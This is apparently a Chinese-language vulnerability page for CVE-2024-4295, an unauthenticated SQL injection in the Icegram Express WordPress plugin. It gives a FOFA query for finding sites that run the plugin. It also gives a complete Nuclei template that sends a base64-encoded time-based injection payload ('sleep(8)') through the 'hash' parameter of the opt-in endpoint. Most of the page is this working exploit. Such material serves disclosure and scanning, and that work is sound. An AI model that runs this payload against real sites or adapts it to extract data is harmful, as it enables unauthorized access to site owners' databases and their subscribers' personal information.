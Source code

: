 # WordPress插件Icegram-Express存在未经身份验证的SQL注入漏洞(CVE-2024-4295)

WordPress 的 Icegram Express 插件的电子邮件订阅者在 5.7.20 及之前的所有版本中都容易通过“hash”参数受到 SQL 注入攻击，原因是对用户提供的参数转义不充分，并且对现有 SQL 缺乏充分的准备询问。 这使得未经身份验证的攻击者可以将额外的 SQL 查询附加到现有的查询中，这些查询可用于从数据库中提取敏感信息。

## fofa

```javascript
body="/wp-content/plugins/email-subscribers/"
```

## poc

```javascript
id: CVE-2024-4295

info:
  name: Email Subscribers by Icegram Express <= 5.7.20 - Unauthenticated SQL Injection via Hash
  author: iamnoooob,rootxharsh,pdresearch
  severity: critical
  description: |
    Email Subscribers by Icegram Express <= 5.7.20 contains an unauthenticated SQL injection vulnerability via the hash parameter.
  remediation: Fixed in 5.7.21
  impact: This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.
  reference:
    - https://www.wordfence.com/threat-intel/vulnerabilities/id/641123af-1ec6-4549-a58c-0a08b4678f45?source=cve
    - https://github.com/cve-2024/CVE-2024-4295-Poc
    - https://github.com/truonghuuphuc/CVE-2024-4295-Poc
    - https://nvd.nist.gov/vuln/detail/CVE-2024-4295
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
    cvss-score: 9.8
    cve-id: CVE-2024-4295
    cwe-id: CWE-89
    epss-score: 0.00091
    epss-percentile: 0.39447
    cpe: cpe:2.3:a:icegram:email_subscribers_\&_newsletters:*:*:*:*:*:wordpress:*:*
  metadata:
    vendor: icegram
    product: email_subscribers_\&_newsletters
    framework: wordpress
    verified: true
    max-request: 1
    publicwww-query: "/wp-content/plugins/email-subscribers/"
    fofa-query: body="/wp-content/plugins/email-subscribers/"
  tags: time-based-sqli,cve,cve2024,wordpress,wp-plugin,wp,email-subscribers,sqli

flow: http(1) && http(2)

variables:
  contact_id: "{{contact_id}}"
  email: "{{email}}"
  rawhash: '{"message_id":0,"campaign_id":0,"contact_id":"{{contact_id}}","email":"{{email}}","guid":"dibwol-qaiebd-qvrgkp-lhyopm-rmyfzo","list_ids":["sleep(8)"],"action":"subscribe"}'

http:
  - method: GET
    path:
      - "{{BaseURL}}"
      - "{{BaseURL}}/wp-content/plugins/email-subscribers/readme.txt"

    stop-at-first-match: true
    host-redirects: true
    max-redirects: 2
    matchers:
      - type: dsl
        dsl:
          - 'contains_any(body, "email-subscribers-", "Email Subscribers by Icegram Express")'
        internal: true

  - raw:
      - |
        @timeout: 20s
        GET /?es=optin&hash={{ base64(rawhash) }} HTTP/1.1
        Host: {{Hostname}}

    matchers:
      - type: dsl
        dsl:
          - 'duration>=8'
          - 'contains(body, "You have been successfully subscribed")'
        condition: and
```

## 漏洞来源

- https://github.com/projectdiscovery/nuclei-templates/blob/d7a064daf93a42628df88d043b737c7297143645/http/cves/2024/CVE-2024-4295.yaml